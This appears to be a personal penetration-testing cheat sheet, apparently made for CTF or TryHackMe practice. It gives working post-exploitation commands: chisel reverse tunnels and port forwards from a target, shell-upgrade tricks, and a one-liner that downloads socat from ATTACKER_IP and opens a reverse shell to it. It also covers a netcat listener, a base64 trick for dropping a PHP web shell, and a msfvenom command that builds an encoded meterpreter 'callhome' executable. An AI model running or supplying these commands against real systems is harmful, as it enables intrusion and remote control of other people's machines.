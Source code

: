 1. Get chisel, via its release page: https://github.com/jpillora/chisel/releases/tag/v1.7.6
2. Get a copy on the target and the attack box. 
3. Create a server on the attack box: `./chisel server -p 1337 --reverse &`
4. From the target, connect to the attack box via `./chisel client ATTACK-BOX-IP:1337 R:socks &`

This will open a proxy on 1080, which you can then setup via proxychains etc.

For straight forwarding ports back, its the same server command as above, plus `./chisel client ATTACK-BOX-IP:1337 R:ATTACK-BOX-PORT:TARGET-IP:TARGET-PORT &`

E.g. if an http server is on the target but otherwise not reachable, I could move it to the attack box with `R:8001:127.0.0.1:80`, so localhost:8001 on the attack box would forward to :80 on the target

## Shell tricks

making a bad reverse shell better:

`python -c 'import pty; pty.spawn("/bin/bash")'`

also if python3 is required:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

if the shell is doing that weird echoing thing, then after running the above, the following can fix this:

```
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```

the above also prevents Ctrl + C killing the reverse shell. if the shell dies, your shell will be boned as no commands sent will be returned. to fix this: type reset and press enter (Thanks TryHackMe)

if python, perl etc are not available (or not accessible by www-data or whoever), but you can wget, then wget socat:

```
wget -q http://ATTACKER_IP:8000/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:4444
export TERM=xterm-256color
export SHELL=bash
```

catching better shells by default (needs rlwrap to be installed):

`rlwrap nc -lvnp <port>`

bypassing url encoding if doing something sneaky like get[cmd]:

`echo urlencoded | base64 -d > shell.php`

creating a windows exe that will call home:

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.100.16 LPORT=4443 -f exe -o callhome.exe`
